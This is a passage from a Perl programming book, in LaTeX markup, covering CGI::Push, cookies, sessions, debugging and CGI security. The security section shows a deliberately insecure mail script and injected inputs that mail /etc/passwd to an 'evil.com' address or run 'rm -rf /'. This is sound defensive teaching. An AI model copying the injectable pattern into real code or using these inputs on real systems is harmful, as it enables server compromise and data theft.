\noindent returns undef once the count reaches 20. This triggers do\_push into calling the done subroutine when the delay next expires:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#pushstop.plx

\noindent use warnings;

\noindent use CGI::Push qw(:standard);

\noindent use strict;

\noindent 

\noindent my \$line="";

\noindent 

\noindent do\_push(

\noindent -next\_page=$>$\textbackslash \&refresh,

\noindent -last\_page=$>$\textbackslash \&done,

\noindent -delay=$>$1

\noindent );

\noindent 

\noindent sub refresh \{

\noindent my (\$cgi,\$count)=@\_; \#passed in by CGI::Push

\noindent 

\noindent return undef if (\$count$>$20); \#stop when we get to 20

\noindent 

\noindent my \$page=start\_html().p("The count is \$count");

\noindent \$line.="*";

\noindent \$page.=\$cgi-$>$p(\$line."\textbackslash n").end\_html();

\noindent return \$page;

\noindent \}

\noindent 

\noindent sub done \{

\noindent my (\$cgi,\$count)=@\_;

\noindent 

\noindent return start\_html()."Count stopped on \$count".end\_html();

\noindent \}

\noindent 

\noindent The delay between updates can be modified using the push\_delay() method, which takes a number

\noindent of seconds as a parameter. Without a parameter, push\_delay() returns the current delay. For example, the following subroutine continuously oscillates the delay between one and ten seconds:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#pushvariable.plx

\noindent use warnings;

\noindent use CGI::Push qw(:standard);

\noindent use strict;

\noindent 

\noindent my \$line="";

\noindent my \$delay=1; \#first delay

\noindent my \$total\_delay=11; \#sum of both delays

\noindent 

\noindent do\_push(

\noindent -next\_page=$>$\textbackslash \&variable\_refresh,

\noindent -last\_page=$>$\textbackslash \&done,

\noindent -delay=$>$\$delay

\noindent );

\noindent 

\noindent 

\noindent sub variable\_refresh \{

\noindent my (\$cgi,\$count)=@\_; \#passed in by CGI::Push

\noindent 

\noindent return undef if (\$count$>$20); \#stop when we get to 20

\noindent 

\noindent \$cgi-$>$push\_delay(\$total\_delay-\$cgi-$>$push\_delay());

\noindent 

\noindent my \$page=start\_html().p("The count is \$count");

\noindent \$line.="*";

\noindent \$page.=\$cgi-$>$p(\$line."\textbackslash n").end\_html();

\noindent return \$page;

\noindent \}

\noindent 

\noindent sub done \{

\noindent my (\$cgi,\$count)=@\_;

\noindent 

\noindent return start\_html()."Count stopped on \$count".end\_html();

\noindent \}

\noindent 

\noindent The subroutine variable\_refresh is identical to refresh in the previous example but with the

\noindent addition of a call to push\_delay, which alters the delay by subtracting its current value (retrieved by calling push\_delay without a parameter) from that of \$total\_delay. With initial values of 1 and 11, respectively, \$delay and \$total\_delay produce a repeating sequence of delays of 1, 10, 1, 10, 1, 10, and so on, until the subroutine returns undef and triggers the done subroutine.

\noindent 

\noindent By default, CGI::Push automatically generates a content-type header of text/html, which is why we've not generated one ourselves in the refresh() or done() subroutines. If this is not what we

\noindent want, we can change the type with the --type argument. For example, a CGI script that generates GIF

\noindent images might use:

\noindent 

\noindent \$cgi-$>$do\_push(-next\_page=$>$\textbackslash \&generate\_image,-type=$>$"image/gif");

\noindent 

\noindent Now each time our subroutine is called, its output will be preceded by an image/gif content type header -- just the thing for a rotating banner.

\noindent 

\noindent We can also can have the subroutine decide what to return itself, giving it the ability to send not only different content-type headers each time, but also any number of additional headers on a per-call basis. To enable this, we use dynamic as the argument. Perhaps the most obvious use for this is to redirect

\noindent the user on the last page of a sequence back to some starting point, perhaps at the end of a slide show:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#pushslide.plx

\noindent use warnings;

\noindent use CGI::Push qw(:standard);

\noindent use strict;

\noindent 

\noindent do\_push(-next\_page=$>$\textbackslash \&show\_slide,

\noindent -last\_page=$>$\textbackslash \&go\_back,

\noindent -type=$>$'dynamic',

\noindent -delay=$>$5

\noindent );

\noindent 

\noindent 

\noindent sub show\_slide \{

\noindent my (\$cgi,\$count)=@\_;

\noindent 

\noindent \# stop after 10 slides

\noindent return undef if \$count$>$10;

\noindent 

\noindent \#set content type in subroutine

\noindent my \$slide=header();

\noindent 

\noindent \# generate contents

\noindent \$slide.=h1("This is slide \$count");

\noindent return start\_html("Slide \$count").\$slide.end\_html();

\noindent \}

\noindent 

\noindent sub go\_back \{

\noindent my \$url=\$ENV\{'HTTP\_REFERER'\}; \#try for the starting page

\noindent \$url='/' unless defined \$url; \#otherwise default to the home page

\noindent 

\noindent \#generate a 'refresh' header to redirect the client

\noindent return header(refresh=$>$"5; URL=\$url", type=$>$"text/html"),

\noindent start\_html("The End"),

\noindent p(\{-align=$>$"center"\},"Thanks for watching!"),

\noindent end\_html();

\noindent \}

\noindent 

\noindent Note that in this case, we can't use \$cgi-$>$redirect() as this only works for the initial page and not

\noindent subsequent pages of a multi-part document. The logic behind this is that a redirection implies some kind

\noindent of invalidity, permanent or transient, with the original URL. Instead, we use a refresh header, which has a similar effect and \textit{is }permitted in this context.

\noindent 

\noindent Cookies and Session Tracking

\noindent 

\noindent Cookies are a special form of persistent data that a CGI script can set in the user's browser for use in subsequent connections. They're especially useful for tracking user sessions and creating online shopping stores.

\noindent 

\noindent Clients record cookies in a special cache and send them back to the server whenever the URL matches

\noindent the criteria with which the cookie was set. A client can send several cookies in a single request if they all match; each one is identified by a name, so that it can be retrieved individually.

\noindent 

\noindent Cookies can also have an expiry time, domain, and path associated with them, which determine respectively: how long the cookie will endure, which hosts should receive the cookie, and the partial URL that the request must match for the cookie to be sent.

\noindent 

\noindent CGI.pm provides support for cookies via the CGI::Cookie module, which can both create and

\noindent retrieve cookies. For example, to create a simple cookie that will only go to the script and only endure for the current connection, we can write either:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#cookie1.plx

\noindent use warnings;

\noindent use CGI;

\noindent use strict;

\noindent print "content-type: text/html\textbackslash n\textbackslash n";

\noindent 

\noindent my \$cgi=new CGI;

\noindent my \$cookie1=\$cgi-$>$cookie(-name=$>$"myCookie1",-value=$>$"abcde");

\noindent print "Cookie 1: \$cookie1\textbackslash n";

\noindent 

\noindent Or, equivalently:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#cookie2.plx

\noindent use warnings;

\noindent use CGI::Cookie;

\noindent use strict;

\noindent print "content-type: text/html\textbackslash n\textbackslash n";

\noindent 

\noindent my \$cookie2=new CGI::Cookie(-name=$>$"myCookie2",-value=$>$"fghij");

\noindent print "Cookie 2: \$cookie2\textbackslash n";

\noindent 

\noindent There are a number of possible parameters that can be set in a cookie. The CGI::Cookie module greatly simplifies their use by establishing convenient defaults in case they're left unspecified. The parameters understood by CGI.pm's cookie() method are:

\noindent 

\noindent 

\noindent \textbf{PARAMETER DESCRIPTION}

\noindent 

\noindent -name The name of the cookie. This can be any alphanumeric string we like, though something short and meaningful is preferable.

\noindent 

\noindent -value The value of the cookie. If this is a list, the cookie is set as a multi- valued cookie.

\noindent 

\noindent -expires An expiry date after which the cookie will be discarded. For example,

\noindent if an expiry date of +3M is set, then the cookie will be kept for three months from the time it is sent. We can also use s for seconds, m for minutes, h for hours, d for days, and y for years.

\noindent 

\noindent If no expiry date is specified, then the cookie will only endure for the current connection. If a negative expiry date is set, then the cookie is automatically expired. This is useful for forcibly removing a cookie from the client's cache once it is no longer needed, for example, -1d. As an alternative, the special keyword "now" can also be used.

\noindent 

\noindent The expiry date can also be an explicit date string, for example, "Sat,

\noindent 15Apr2000 16:21:20 GMT".

\noindent 

\noindent 

\noindent \textbf{PARAMETER DESCRIPTION}

\noindent 

\noindent -domain A whole or partial domain name that must match the domain name

\noindent of the request for the cookie to be sent back. For example, if the domain was .myserver.com, it would be sent to www.myserver.com, www2.myserver.com, and so on, but not to www.anothersever.com or www.myserver.net.

\noindent 

\noindent If no domain is set, the cookie will only be sent to the host that set the cookie.

\noindent -path A partial URL that must match the request for the cookie to be sent.

\noindent For example, if the path is /shop/, it will only be sent for URLs of the form 'http://myserver.com/shop/...'.

\noindent If no path is specified, then the URL of the script is used, causing the cookie to be sent only to the script that created it.

\noindent -secure Setting this to 1 will cause the cookie to be sent only if the client has

\noindent a secure connection to the server via SSL (an https: URL).

\noindent 

\noindent The cookie created by either of these calls can then be sent in a header using the header() method, as

\noindent we saw earlier:

\noindent 

\noindent print \$cgi-$>$header(-type=$>$"text/html", -cookie=$>$\$cookie);

\noindent 

\noindent We can retrieve the cookie by hand if we want, by looking for the HTTP\_COOKIE (or possibly just COOKIE, depending on the server) environment variable. Since we may be sent several cookies, we can separate out the one we want with a regular expression:

\noindent 

\noindent my (\$cookies,\$cookie);

\noindent \$cookies=\$ENV\{HTTP\_COOKIE\} \textbar \textbar  \$ENV\{COOKIE\};

\noindent \$cookies=\~{}/myCookie=(\textbackslash w+)/ \&\& \$cookie=\$1;

\noindent 

\noindent This  matches  the  cookie  name,  myCookie, followed  by  an  equals  sign  and  one  or  more  word characters  (the  value  of  our  cookie).  A  semicolon  will  separate  any  other  cookies  after  ours,  so  we can  guarantee  that  matching  word  characters  will  retrieve  the  cookie  value  and  nothing  else.  By placing  parentheses  around  \textbackslash w+,  we  get  the  result  of  the  match  in  the  special  variable  \$1,  which

\noindent we store in \$cookie.

\noindent 

\noindent Semicolons  and  spaces  separate  multiple  cookies,  so  we  could  also  use  split to  create  a  hash

\noindent of cookies:

\noindent 

\noindent my (\$cookies,@cookies,\%cookies);

\noindent \$cookies=\$ENV\{HTTP\_COOKIE\} \textbar \textbar  \$ENV\{COOKIE\};

\noindent if (\$cookies) \{

\noindent \#split up cookie variable into individual cookie definitions

\noindent @cookies=split /;\textbackslash s/,\$cookies;

\noindent 

\noindent \#for each definition, extract and set the value of each cookie key foreach (@cookies) \{

\noindent /([\^{}=]+)=(.*)/ \&\& \$cookies\{\$1\}=\$2;

\noindent \}

\noindent \}

\noindent 

\noindent 

\noindent We can also retrieve a cookie with the cookie() method. To do so, specify the cookie's name without

\noindent a value:

\noindent 

\noindent my \$cookie\_value=\$cgi-$>$cookie(-name=$>$"myCookie");

\noindent 

\noindent Alternatively, we can take advantage of the special one-parameter shortcut and omit the -name

\noindent parameter:

\noindent 

\noindent my \$cookie\_value=\$cgi-$>$cookie("myCookie");

\noindent 

\noindent Now that we know how to create, send, receive, and parse cookies, we can use them to implement session tracking in our CGI scripts. The following code snippet illustrates the general idea:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#cookie3.plx

\noindent use warnings;

\noindent use CGI;

\noindent use strict;

\noindent 

\noindent my \$cgi=new CGI;

\noindent 

\noindent my \$cookie=\$cgi-$>$cookie("myCookie");

\noindent 

\noindent if (\$cookie) \{

\noindent print \$cgi-$>$header(); \#no need to send cookie again

\noindent \} else \{

\noindent my \$value=generate\_unique\_id();

\noindent \$cookie=\$cgi-$>$cookie(-name=$>$"myCookie",

\noindent -value=$>$\$value,

\noindent -expires=$>$"+1d"); \#or whatever we choose

\noindent print \$cgi-$>$header(-type=$>$"text/html",-cookie=$>$\$cookie);

\noindent \}

\noindent 

\noindent sub generate\_unique\_id \{

\noindent \#generate a random 8 digit hexadecimal session id

\noindent return sprintf("\%08.8x",rand()*0xffffffff);

\noindent \}

\noindent 

\noindent In order to keep track of which client is using the script, we need to store the session IDs somewhere, along with whatever information is associated with them. We can use the very convenient Apache::Session module to provide this functionality for us.

\noindent 

\noindent \textit{Despite its name, this module prefers but does not }require \textit{Apache in order to function properly. Apache::Session works with databases via DBI (which we'll introduce properly in the next chapter), memory caches, and simple text files.}

\noindent 

\noindent 

\noindent Apache::Session binds a hash variable to an underlying storage medium (database, file, memory), which contains the session information for an individual session. If no session ID (or a session ID of undef) is given, a new one is created and Apache::Session invents a new (and unique) ID that can

\noindent be retrieved from the newly tied hash using \_session\_id as the hash key:

\noindent 

\noindent 

\noindent \# $<$type$>$ and $<$parameters$>$ vary according to storage type - see later

\noindent my (\%session,\$id);

\noindent tie \%session, 'Apache::Session::$<$type$>$', undef, \{ ...$<$parameters$>$... \};

\noindent my \$id=\$session\{\_session\_id\};

\noindent 

\noindent We can send this session ID to the client in a cookie and retrieve it again when the client makes another request. The \%session hash is now available for us to store any persistent information we want, for example, credit card details:

\noindent 

\noindent \$session\{'user'\}=\$cgi-$>$param('name');

\noindent \$session\{'credit\_card\_no'\}=\$cgi-$>$param('creditno');

\noindent \$session\{'credit\_card\_expiry'\}=\$cgi-$>$param('creditexpire');

\noindent 

\noindent We can retrieve the session by passing in the ID. Since Apache::Session calls die for errors, we wrap the tie in an eval block to trap any (such as not finding the ID) that are returned by Apache::Session:

\noindent 

\noindent my \$cookie=\$cgi-$>$cookie('myCookie');

\noindent eval \{

\noindent tie \%session, 'Apache::Session::$<$type$>$', \$cookie,

\noindent \{ ...$<$parameters$>$... \};

\noindent \}

\noindent 

\noindent Assuming the session exists, we now have access to the \%session hash with the information that we previously stored for this session. Note that if \$cookie is not set (because \$cgi-$>$cookie() returned

\noindent no cookie), then this creates a new session and returns \%session tied to that new session.

\noindent 

\noindent To make this clearer, here's a complete example of a CGI script that tracks user sessions in a file. To use

\noindent it, all we need to do is pick a directory (which the script can read from and write to) to store the session files. This example could be used as the foundation of a CGI-based shopping cart application:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#session.plx

\noindent use warnings;

\noindent use Apache::Session::File;

\noindent use CGI;

\noindent use CGI::Carp;

\noindent 

\noindent my \$cgi=new CGI;

\noindent my \$cookie=\$cgi-$>$cookie("myCookie"); \# existing cookie or undef

\noindent 

\noindent eval \{

\noindent \# \$cookie is existing cookie or undef to create a new session

\noindent tie \%session, 'Apache::Session::File', \$cookie,

\noindent \{Directory =$>$ '/tmp/sessions/'\};

\noindent \};

\noindent 

\noindent if (\$@) \{

\noindent if (\$@=\~{}/\^{}Object does not exist in the data store/) \{

\noindent \# session does not exist in file (expired?) - create a new one

\noindent tie \%session,'Apache::Session::File', undef,

\noindent \{Directory =$>$ '/tmp/sessions/'\};

\noindent 

\noindent 

\noindent \$cookie=undef; \# this cookie isn't valid any more, undef it.

\noindent \} else \{

\noindent \# some other more serious error has occurred and session

\noindent \# management is not working.

\noindent print \$cgi-$>$header('text/html','503 Service Unavailable');

\noindent die "Error: \$@ (\$!)";

\noindent exit;

\noindent \}

\noindent \}

\noindent 

\noindent unless (\$cookie) \{

\noindent \# retrieve the new session id from the \%session hash

\noindent \$cookie=\$cgi-$>$cookie(-name=$>$"myCookie",

\noindent -value=$>$\$session\{\_session\_id\},

\noindent -expires=$>$"+1d");

\noindent print \$cgi-$>$header(-type=$>$"text/html",-cookie=$>$\$cookie);

\noindent \} else \{

\noindent print \$cgi-$>$header(); \#no need to send cookie again

\noindent \}

\noindent 

\noindent print \$cgi-$>$start\_html("Session Demo"),

\noindent \$cgi-$>$h1("Hello, you are session id ",\$session\{\_session\_id\}),

\noindent \$cgi-$>$end\_html;

\noindent 

\noindent untie \%session;

\noindent 

\noindent The output of this script will look something like this:

\noindent 

\noindent 

\noindent SetCookie: myCookie=43f9382fd1a6b374; path=/cgi-bin/session.cgi; expires=Sat,

\noindent 15Apr2000 16:21:20 GMT

\noindent Date: Fri, 14 Apr 2000 16:21:20 GMT ContentType: text/html

\noindent 

\noindent $<$!DOCTYPE HTML PUBLIC "//IETF//DTD HTML//EN"$>$

\noindent $<$HTML$>$$<$HEAD$>$$<$TITLE$>$Session Demo$<$/TITLE$>$

\noindent $<$/HEAD$>$$<$BODY$>$$<$H1$>$Hello, you are session id 43f9382fd1a6b374$<$/H1$>$$<$/BODY$>$$<$/HTML$>$

\noindent 

\noindent 

\noindent Debugging CGI Scripts

\noindent 

\noindent When it comes to debugging, CGI scripts are slightly trickier than regular scripts, because CGI scripts

\noindent are run by the server, and they send all their output back to it. The error output of CGI scripts is sent to the server's error log (but note that the server may be configured not to react to low-priority errors, so

\noindent we might not see anything). We can therefore trace the execution of a script and generate our own debug messages by printing to the STDERR filehandle:

\noindent 

\noindent print STDERR "This is a debug message\textbackslash n";

\noindent 

\noindent Unfortunately, this doesn't produce a nice time-stamped error message, nor does it actually identify

\noindent what script sent the message. Fortunately, we can use the CGI::Carp module to tidy things up for us.

\noindent 

\noindent 

\noindent CGI::Carp replaces the standard die and warn functions (as well as Carp.pm's croak, cluck, and

\noindent confess) with versions that reformat their output into a form suitable for the error log. Once CGI::Carp has been used, any call to a function like die will now behave correctly in a CGI context, for example:

\noindent 

\noindent use CGI::Carp;

\noindent ...

\noindent open ("$>$ \$output") \textbar  die "Couldn't open: \$!";

\noindent 

\noindent The alternative to sending messages to the error log is to send them to the client, for viewing in a browser. If we do this, though, we have to be sure to send the content header first, or else the browser won't understand what the server is sending it.

\noindent 

\noindent We can also redirect errors to the browser:

\noindent 

\noindent open (STDERR,"$>$\&STDOUT");

\noindent 

\noindent However, if we do this, we should take care to make the output unbuffered. Otherwise, error messages may race past and precede the content-type header:

\noindent 

\noindent \$\textbar =1; \#make STDOUT unbuffered

\noindent 

\noindent We can also use CGI::Carp to send errors to the output by importing the special carpout() function (which is not otherwise imported). carpout() takes an open filehandle as an argument and redirects STDERR to that filehandle. To redirect to STDOUT, we can write:

\noindent 

\noindent use CGI::Carp qw(carpout);

\noindent ... carpout(STDOUT);

\noindent 

\noindent CGI::Carp also allows us to redirect fatal errors (such as the output of a die) to the browser, by importing the special fatalsToBrowser symbol:

\noindent 

\noindent use CGI::Carp qw(carport fatalsToBrowser)

\noindent 

\noindent This causes the die and confess functions to be automatically redirected to the browser. It also automatically adds a content-type header, so the output will be seen even if the error is generated before the normal content-type header is sent.

\noindent 

\noindent Using CGI.pm to Debug Scripts from the Command Line

\noindent 

\noindent One of CGI.pm's more useful features is the ability to run CGI scripts from the command line. When

\noindent a script is run in this way, CGI parameters can be entered from the keyboard as command line arguments, for example:

\noindent 

\noindent \$ /home/sites/myserver.com/scripts/perl/askname.plx first=John last=Smith

\noindent 

\noindent The command line is designed to mimic the style of GET requests, so we can also enter parameters in the form of a query string and separating the parameters with ampersands:

\noindent 

\noindent \$ /home/sites/myserver.com/scripts/perl/askname.plx first=John\&last=Smith

\noindent 

\noindent 

\noindent CGI.pm also supports a POST-style debugging mode where parameters are entered one per line,

\noindent finishing with \textit{Ctrl-D }(on Unix) or \textit{Ctrl-Z }(on Windows). Using the POST interface, we can test the

\noindent askname.plx script with:

\noindent 

\noindent \$ /home/sites/myserver.com/scripts/perl/askname.plx (offline mode: enter name=value pairs on standard input) first=John

\noindent last=Smith

\noindent \^{}D

\noindent 

\noindent Older versions of CGI.pm automatically enter the POST-style debug mode, but newer versions (circa

\noindent 2.3.6) only offer POST-style input if we ask for it explicitly. If the POST mode does not appear when the script is run from the command line, enable it by adding -debug to the use CGI statement:

\noindent 

\noindent use CGI qw(:standard -debug);

\noindent 

\noindent With both GET and POST debugging, the output of the script (along with any errors or warnings generated) is written to the screen.

\noindent 

\noindent As a final note on debugging, we can explicitly disable the ability to run CGI scripts from the command line with -no\_debug. For example:

\noindent 

\noindent use CGI qw(:standard -no\_debug);

\noindent 

\noindent 

\noindent CGI Security

\noindent 

\noindent CGI scripts are one of the biggest sources of security holes in web servers and frequently the biggest headache for any web server administrator. A poorly written CGI script can cause all kinds of problems, including allowing crackers access to the web server, providing them with privileged information that

\noindent can help them gain access, and causing denial-of-service problems (with the server running out of CPU

\noindent time, memory, disc space, or network bandwidth).

\noindent 

\noindent In this section, we'll see just how easy it is to create an insecure CGI script, then look at some of the techniques that a CGI programmer should employ to try and make their work secure and invulnerable

\noindent to abuse. Of course, it's impossible to guarantee that a script is totally secure, but the better written it is, the less likely it will be vulnerabilities.

\noindent 

\noindent An Example of an Insecure CGI Script

\noindent The following Perl script is a good example of the kind of insecure script that's been known to cause real trouble on real web servers:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#email\_insecure.plx

\noindent use warnings;

\noindent use strict;

\noindent print "Content-Type: text/html\textbackslash n\textbackslash n";

\noindent 

\noindent my \$mail\_to=\$ENV\{'QUERY\_STRING'\};

\noindent print "$<$HTML$>$$<$HEAD$>$$<$TITLE$>$Mail yourself a greeting$<$/TITLE$>$";

\noindent print "$<$/HEAD$>$$<$BODY$>$$<$H1$>$Greeting Sent!$<$/H1$>$";

\noindent print "$<$/BODY$>$$<$/HTML$>$";

\noindent 

\noindent 

\noindent open (MAIL,"\textbar mail \$mail\_to"); \#run an external mail program

\noindent print MAIL "Hello from Email!\textbackslash n";

\noindent close MAIL;

\noindent 

\noindent This program exhibits a number of deficiencies that could lead to exploitable weaknesses:

\noindent 

\noindent ? It generates no warnings (no use warnings flag) and doesn't use strict mode (use strict). The lack of these increase the likelihood of a bug in the script that could lead to unexpected and insecure behavior when fed the wrong data.

\noindent 

\noindent ? It doesn't check for URL-encoded characters in the query string \textit{or }attempt to decode them.

\noindent 

\noindent ? The script doesn't ensure that the mail program it runs is in the place it is supposed to be, that

\noindent is, the contents of \$ENV\{PATH\} aren't checked.

\noindent 

\noindent ? It makes no attempt to check if the email address is even halfway reasonable or that the call to the external mail program actually succeeded.

\noindent 

\noindent Not a good start -- however, it gets even worse. This script receives an email address from the user (probably via a form) that's relayed to a mailing program (\textbar mail), which sends a greeting to the supplied email address (\$mail\_to). If it receives an address of the form john.smith@myserver.com, then all is well. However, it could just as easily receive this email address:

\noindent 

\noindent 

\noindent cracker@baddomain.evil.com+$<$/etc/passwd

\noindent 

\noindent This would cause the open statement to execute the following command:

\noindent 

\noindent 

\noindent mail cracker@baddomain.evil.com $<$/etc/passwd

\noindent 

\noindent Now  if this were  running on  a  UNIX  system  (and  passwords  aren't  being  kept  in  a  shadow

\noindent password file),  this would have  just  mailed  cracker a  copy  of  the server's  password  file.  Although

\noindent it wouldn't grant them  immediate  access,  they  could  attempt  to  crack  the  file to  release  user accounts and  passwords.

\noindent 

\noindent 

\noindent \textbf{Any account on a server is useful to a cracker -- if one of them happens to be root,}

\noindent \textbf{then we're in a whole load of trouble!  This simple script can retrieve almost any file}

\noindent \textbf{on the target server, and the general principle works for \underbar{any} kind of server.}

\noindent 

\noindent 

\noindent In order to fix this CGI script, we need to know a bit more about security. Once we've covered the

\noindent basics of CGI security, we'll use our knowledge to turn it into something far more respectable.

\noindent 

\noindent Executing External Programs

\noindent 

\noindent The first thing to keep in mind when writing CGI scripts is this:

\noindent 

\noindent 

\noindent \textbf{Never trust any data received from an external source, especially if that data is used to}

\noindent \textbf{call an external program of any kind.}

\noindent 

\noindent 

\noindent In Perl, that includes the built-in functions system, exec, open, and eval (which runs the perl

\noindent interpreter), as well as file functions like unlink. We've already seen how open can be used to create a security hole. Here's another example that uses the system call to run the UNIX touch command:

\noindent 

\noindent 

\noindent system "/usr/bin/touch -f \$timestamp"

\noindent 

\noindent This code can be used to execute hostile commands on the server. When system and exec are passed

\noindent a single parameter containing special characters (especially spaces, but also semicolons, pipes, and so on), they start an intermediate shell to parse the command inside the parameter, and detect any

\noindent arguments that may have been passed. The shell doesn't know that we intended a single command to be executed, so it's open to abuse.

\noindent 

\noindent For example, if the variable \$timestamp is derived from a CGI parameter, it could be given a value of:

\noindent 

\noindent 

\noindent ; rm -rf /

\noindent 

\noindent or, on a Windows server, something like:

\noindent 

\noindent 

\noindent ; format C:

\noindent 

\noindent The result of an input like this would be a command (for the first example) of:

\noindent 

\noindent 

\noindent /usr/bin/touch -f; rm -rf /

\noindent 

\noindent At this point, the web server may start to experience serious pain. Even if this particular command was thwarted by user permissions, it's not hard to envision a whole host of similar examples that could very easily do a great deal of damage.

\noindent 

\noindent Fortunately, the system and exec calls have a special calling convention, which avoids the use of an intermediate shell where parameters are passed as multiple arguments rather than together. Perl

\noindent assumes that the job of parsing the command line into arguments has already been done implicitly, so a shell isn't needed to perform the task. Here's an example of the same system call, this time avoiding an intermediate shell:

\noindent 

\noindent 

\noindent system "/usr/bin/touch","-f",\$timestamp;

\noindent \$exit\_code=\$? $>$$>$ 8; \#from the system call

\noindent 

\noindent No intermediate shell is created, so passing strange values to the command won't result in the security hole seen above. Instead, the executed program would probably just get confused and return an error. Note that if we want to call an external program with no parameters, we cannot (by definition) send multiple parameters. Fortunately for us, perl optimizes the call to avoid a shell, because no special shell characters are present.

\noindent 

\noindent Before we write code to run an external program though, we should first ask ourselves whether we actually need to. The Perl language and standard libraries contain many features that will often do the job for us (the touch example above being one of them). Not only does this produce scripts that are

\noindent more secure, but they'll also be faster and more portable.

\noindent 

\noindent 

\noindent \textit{Reading and Writing to External Programs}

\noindent One common way of enabling a Perl script to write to an already running external program is to create

\noindent a read-only pipe, using the open function:

\noindent 

\noindent open (OUT, "\textbar /usr/bin/sendmail -t -oi");

\noindent print OUT, "To: \$to\_addr";

\noindent ...

\noindent 

\noindent Likewise, to read from an external program:

\noindent 

\noindent open (IN,"/usr/bin/date -u +\$format \textbar ") \textbar \textbar  carp "Error: \$!";

\noindent my \$date=$<$IN$>$;

\noindent ...

\noindent 

\noindent Perl also allows external programs to be called and their output read by using backticks (`) or the equivalent qx// quoting function. For example, to get the date on a UNIX system:

\noindent 

\noindent my \$date=`/usr/bin/date -u +\$format`;

\noindent 

\noindent None of these approaches should be used for CGI programming if the external program is passed one

\noindent or more parameters, since they create a shell and introduce the same potential security problems we saw above.

\noindent 

\noindent Here we've used a pair of well known UNIX system commands, but the same principle applies on any platform, be it a Windows executable or a Macintosh binary -- it's the fact that parameters are passed

\noindent that causes the problem.

\noindent 

\noindent Unfortunately, open doesn't allow us to specify parameters to commands separately, but it does have a special form that allows us to use exec to run the actual command. We use this special form of the

\noindent open function by passing one of the magic parameters "\textbar -" (for writing) or "-\textbar " (for reading). These are unlikely to work on any operating system other than UNIX.

\noindent 

\noindent When either of these is seen by open, it causes the script to fork into two identical concurrent copies, a parent and a child. We can tell which copy we are by the value returned from open. For the parent, it's the process identity of the child, whereas for the child, it's zero.

\noindent 

\noindent By testing this return value (which conveniently evaluates to True or False in a comparison) we can then have the child process use exec to run the command and avoid a shell. The following script illustrates three different ways of writing a forked open:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#forkedopen.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent my \$date;

\noindent my \$format="\%s";

\noindent 

\noindent unless (open DATE,"-\textbar ") \{

\noindent exec '/bin/date','-u',"+\$format";

\noindent \#exec replaces our script so we never get here

\noindent \}

\noindent 

\noindent 

\noindent \$date=$<$DATE$>$;

\noindent close DATE;

\noindent print "Date 1:\$date\textbackslash n";

\noindent 

\noindent my \$result=open (DATE,"-\textbar ");

\noindent exec '/bin/date','-u',"+\$format" unless \$result;

\noindent \$date=$<$DATE$>$;

\noindent close DATE;

\noindent print "Date 2:\$date\textbackslash n";

\noindent 

\noindent open (DATE,"-\textbar ") \textbar \textbar  exec '/bin/date','-u',"+\$format";

\noindent \$date=$<$DATE$>$;

\noindent close DATE;

\noindent print "Date 3:\$date\textbackslash n";

\noindent 

\noindent Although this might seem a little scary and over-complex, it's really not much different from a normal

\noindent open. It just has a bit of extra security for the CGI programmer.

\noindent 

\noindent Taint Checking

\noindent 

\noindent Since Perl evolved with CGI and web development in mind, it's not surprising that it has very good support for handling CGI scripts. Foremost amongst these is taint checking, which detects insecure variables and tracks their use throughout a CGI script. By insecure, we mean any variable that originated outside the script, like the contents of the \%ENV hash, along with anything derived from them, such as CGI query parameters.

\noindent 

\noindent If a tainted variable is used in a context that perl considers dangerous (such as being used in an executable command or a filename to be opened by the script), it'll throw up an error and halt the script. For example, the following attempts to run a command with a tainted path:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#taint\_error.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent system 'date';

\noindent 

\noindent If we run this, we get the following error:

\noindent 

\noindent $>$\textbf{perl -T taint\_error.plx}

\noindent Insecure \%ENV\{PATH\} while running with -T switch at taint\_error.plx line 6.

\noindent $>$

\noindent 

\noindent Taint checking is enabled with the -T switch, and we should always use it as part of good programming practice.

\noindent 

\noindent If perl is running a script under a different user to the one that started the server (quite common on UNIX servers), taint checking is automatically enabled, whether we specify the -T switch or not. This cannot be disabled. Don't ever be tempted to find a way to disable taint checking just to get a script to run -- if a script generates errors because of tainted variables, it's a good indication that there are problems with it.

\noindent 

\noindent 

\noindent Having  said that, we do  sometimes  want  to  'untaint'  a  variable,  because  we've  checked  that it's okay

\noindent to  use and want to  tell Perl that  it  can  relax  its  guard.  The  easiest  way  to  do  this is  simply  to

\noindent overwrite it with a new,  known  value.  For  example,  to  untaint  the  search  path  for external programs,

\noindent we could write:

\noindent 

\noindent 

\noindent \$ENV\{'PATH'\}="/bin";

\noindent 

\noindent Alternatively, if we have to be more flexible:

\noindent 

\noindent 

\noindent \$ENV\{'PATH'\}="/sites/shared-scripts:/bin:/usr/bin";

\noindent 

\noindent We can actually avoid using PATH altogether by coding the full pathname to any external programs we use, for example, using /bin/mail rather than mail.

\noindent 

\noindent Perl also allows us to clean an existing variable, but only by doing so explicitly. When we untaint a variable, we're telling perl to trust that we know what we're doing and that we've taken sufficient precautions to make sure that the variable is secure.

\noindent 

\noindent One example of a variable we might want to untaint is the DOCUMENT\_ROOT environment variable. Since the web server sets this, we know we can trust it, even though perl considers it to be tainted.

\noindent 

\noindent Values are cleaned by passing them through a regular expression match and extracting a substring. For example, we trust the web server to give us a reliable value for the document root, because a client can't override that value. We can allay Perl's suspicions by using a regular expression match:

\noindent 

\noindent \$doc\_root=\$ENV\{'DOCUMENT\_ROOT'\}=\~{}/(.*)/ \&\& \$1;

\noindent 

\noindent It's vital  that we know what we're doing \textit{before }we untaint a variable. In fact, Perl's own perlsec

\noindent manual page explicitly warns against it. Cleaning a string 'to get it to run' is very likely to be a sign of an insecure script.

\noindent 

\noindent DOCUMENT\_ROOT can usually be trusted, since it's defined by the web server and cannot be overridden. However, other variables can't be trusted so readily, so we should take steps to check that the variable is safe before we untaint it and preferably extract a more specific substring.

\noindent 

\noindent For example, if we're untainting a CGI parameter that we will be using as a filename, we might write:

\noindent 

\noindent 

